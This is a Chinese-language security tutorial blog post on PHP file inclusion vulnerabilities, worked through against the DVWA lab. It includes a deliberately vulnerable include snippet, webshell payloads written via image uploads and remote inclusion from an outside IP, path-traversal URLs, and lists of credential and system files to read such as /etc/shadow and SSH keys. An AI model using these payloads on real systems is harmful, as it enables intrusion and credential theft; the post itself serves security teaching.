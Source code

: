 ```yaml
---
published: true
layout: post
tags: web安全
categories: document
---
```

## 文件包含漏洞

### 文件包含：  
   程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这种文件调用的过程一般被称为文件包含。几乎所有脚本语言都会提供文件包含的功能，但文件包含漏洞在PHP Web Application中居多  
### 常见文件包含函数：    
1.include()：执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行  
2.require()：只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本   
3.include_once()和require_once()：若文件中代码已被包含则不会再次包含   
### 利用条件 
1.程序用include()等文件包含函数通过动态变量的范式引入需要包含的文件  
2.用户能够控制该动态变量   
注：PHP中只要文件内容符合PHP语法规范，包含时不管扩展名是什么都会被PHP解析。     

### 本地文件包含的危险  
1.读敏感文件，读PHP文件   
2.包含日志文件GetShell   
3.上传图片马，然后包含从而GetShell   
4.包含/proc/self/envion文件GetShell   
5.包含data:或php://input等伪协议   
6.若有phpinfo则可以包含临时文件   

### 实例：  
前提：校验规则只校验当文件后缀名为asp/php/jsp的文件内容是否为木马。   
绕过方式：（这里拿php为例，此漏洞主要存在于PHP中)   
（1）先上传一个内容为木马的txt后缀文件，因为后缀名的关系没有检验内容；   
（2）然后再上传一个.php的文件，内容为<?php Include(“上传的txt文件路径”);?>  
此时，这个php文件就会去引用txt文件的内容，从而绕过校验，下面列举包含的语法：  

    #PHP
    <?php Include("上传的txt文件路径");?>
    
    #ASP
    <!--#include file="上传的txt文件路径" -->
    
    #JSP
    <jsp:inclde page="上传的txt文件路径"/>

编写本地php代码  

    <?php
        if (@$_GET['page']) {
            include("./action/".$_GET['page']);
        } else {
            include "./action/show.php";
        }
    ?>
    
结合图片马来生成shell：  
1.生成包含<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST['cmd']);?>")?>代码段的图片马     
2.上传后图片路径为../../hackable/uploads/aa.png   
3.访问http://10.11.11.20/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/aa.png   
4.在fi这个文件夹下会看到生成shell.php,内容为<?php eval($_POST['cmd']);?>  

### 本地包含读文件：
index.php？page=/etc/passwd  
Windows：  
    C:\boot.ini  //查看系统版本  
    C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件  
    C:\Windows\repair\sam  //存储系统初次安装的密码  
    C:\Program Files\mysql\my.ini  //Mysql配置  
    C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root  
    C:\Windows\php.ini  //php配置信息  
    C:\Windows\my.ini  //Mysql配置信息  
    ...  
Linux：  
    /root/.ssh/authorized_keys  
    /root/.ssh/id_rsa  
    /root/.ssh/id_ras.keystore  
    /root/.ssh/known_hosts  
    /etc/passwd  
    /etc/shadow  
    /etc/my.cnf  
    /etc/httpd/conf/httpd.conf  
    /root/.bash_history  
    /root/.mysql_history  
    /proc/self/fd/fd[0-9]*(文件标识符)  
    /proc/mounts  
    /porc/config.gz  
### 远程文件包含  
   当服务器的php配置中，选项allow_url_fopen与allow_url_include为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致任意远程代码执行。  
1.可通过url执行远程服务器中的码http://ip/page=http://192.168.5.12/a.txt   
2.在a.txt写入<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST['cmd']); ?>") ?>，可直接写shell.  

